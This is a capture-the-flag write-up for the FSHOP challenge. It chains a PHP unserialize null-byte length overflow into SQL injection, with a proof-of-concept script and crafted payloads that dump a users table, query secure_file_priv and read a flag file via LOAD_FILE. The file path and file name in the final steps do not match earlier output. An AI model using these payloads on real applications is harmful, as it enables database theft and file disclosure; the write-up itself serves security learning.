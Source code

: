 ### FSHOP



Taking a look at the source code you can notice some interesting stuff.

The process  when bying an object is like below:

Once you choose the product that exists in the database ,a new order is created  and stored in **$prouductOBJ ** then serialized and that serialized object gets inserted in the table **user_items**.

But since SQL can't save NULL bytes and since we do have protected attributes in Order class  ; when trying to store data into the DB there will be an interesting replace of **‘\x00\x2a\x00’ **(chr(0).*.chr(0))with **'\0\0\0’**(the ‘\x00\x2a\x00’ is a prefix added to all the protected variables ).



![image-20200908233241180](./1.png)



From another side, in **items.php** ,while trying access your products  which get extracted  from the

database ,the**'\0\0\0’ **will be replaced with **‘\x00\x2a\x00’ **(null*null)in order to reconstruct the original order which is exactly where the overflow comes from .The **product_id **is later extracted and a vulnerable SQL query gets executed in order to return the exact product from **products** table.



![image-20200908233402021](./2.png)



So basically here the goal is the exploit the unserialize overflow in order to construct our own object which would allow us to perform a SQL injection and dig more into the database.

#### Exploit:

```php
<?php 

class Order
{

    protected $_quantity;
    protected $_size;
    public $_product_id;
    public function __construct($product_id,$quantity,$size){
    $this->_product_id=$product_id;
    $this->_quantity=$quantity;
    $this->_size=$size;	
    }

}

$quant="1";
$siz="S";
$order=new Order("1",$quant,$siz);
$ser=serialize($order);
$res_ser=str_replace(chr(0)."*".chr(0), '\0\0\0', $ser);

$to_unser=str_replace( '\0\0\0', chr(0)."*".chr(0),$res_ser);
echo "serialized object\n ";
echo $to_unser."\n\n\n";
echo "after deserialization\n ";
$unser_obj=unserialize($to_unser);
var_dump($unser_obj);
```

##### Results:

![image-20200908233522822](./3.png)



**“Quantity “will cause the ‘overflow’ and “size”will contain the last part of the exploit.**



First of all we need to make some calculations to get exactly how many \0\0\0 we need to add to $quant.

The distance from the end of the quantity  value and the beginning of the size value is 23 ( don’t forget that *  is indeed chr(0)."*".chr(0)). But  since we need to add a multiple of 3 ,we have to make it to 24 . so we need to add 16 * “\0\0\0”.

![image-20200909003046651](./4.png)

which means,

```php
$quant='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
```

the rest of the paload will be held in $siz.

```php
$siz='a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:60:"50\' union select 1,2,3,4,5,6;-- -';
```

Notice that the length of product_id 's value is 60 which is the length of your payload for the product_id value **50' union select 1,2,3,4,5,6;-- -** plus the length of the remaining part (the real product_id)of the serialized object that will be added :**";s:11:"_product_id";s:1:"1** .

Make sure to always remember to add  27 to the length of your custom product_id so that when the unserialization happens it will keep reading until hitting 60 chars and add them to the product_id .

This added part won't affect the SQL statement due to the comments (-- -).

![image-20200908233857092](./5.png)

Now using Burp intercept the request and change the value of quantity & size and don’t forget to URL encode them ( and that little “\ “remove it it’ s just for php code :p).

```php
$siz=’a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:61:"50' union select * from users limit 1 offset 0;-- -’;
```

You'll get the **the flag is not in the database** !

It won't be hidden behind closed doors , there must be a file for the flag .

Let’s find out from which directories we can load files.

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50\' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -';
```

![image-20200909000407084](./6.png)



You ll get **/var/lib/Fword/mysql-files/You_got_it/**

The last step is the read flag.php

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:103:"50\' union select 1,2,LOAD_FILE("/var/lib/mysql-files/flag.txt"),4,5,6,7;-- -';
```



![image-20200909000958655](./7.png)



Et voilà 

![image-20200909002121224](./8.png)
